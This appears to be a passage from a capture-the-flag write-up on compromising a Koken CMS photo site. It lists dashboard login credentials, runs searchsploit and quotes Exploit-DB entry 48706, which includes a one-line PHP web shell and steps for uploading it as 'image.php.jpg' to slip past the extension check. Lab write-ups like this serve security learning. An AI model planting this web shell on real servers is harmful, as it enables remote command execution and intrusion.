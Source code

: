 &nbsp;

## Exploitation
### Logging in to the Koken dashboard

| Email                  | Password |
| :-: | :-: |
| daisa@photographer.com | babygirl |


### Searching for relevant exploit using Searchsploit

Now that we know theere is a Kokwn CMS running on port 8000, we can search for an exploit using Searchsploit.

```
$ searchsploit koken                                                                                       
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)                                                                                                                                                 | php/webapps/48706.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Let's check what the exploit instructs us to do.

```
$ cat 48706.txt   
# Exploit Title: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
# Date: 2020-07-15
# Exploit Author: v1n1v131r4
# Vendor Homepage: http://koken.me/
# Software Link: https://www.softaculous.com/apps/cms/Koken
# Version: 0.22.24
# Tested on: Linux
# PoC: https://github.com/V1n1v131r4/Bypass-File-Upload-on-Koken-CMS/blob/master/README.md

The Koken CMS upload restrictions are based on a list of allowed file extensions (withelist), which facilitates bypass through the handling of the HTTP request via Burp.

Steps to exploit:

1. Create a malicious PHP file with this content:

   <?php system($_GET['cmd']);?>

2. Save as "image.php.jpg"

3. Authenticated, go to Koken CMS Dashboard, upload your file on "Import Content" button (Library panel) and send the HTTP request to Burp.

```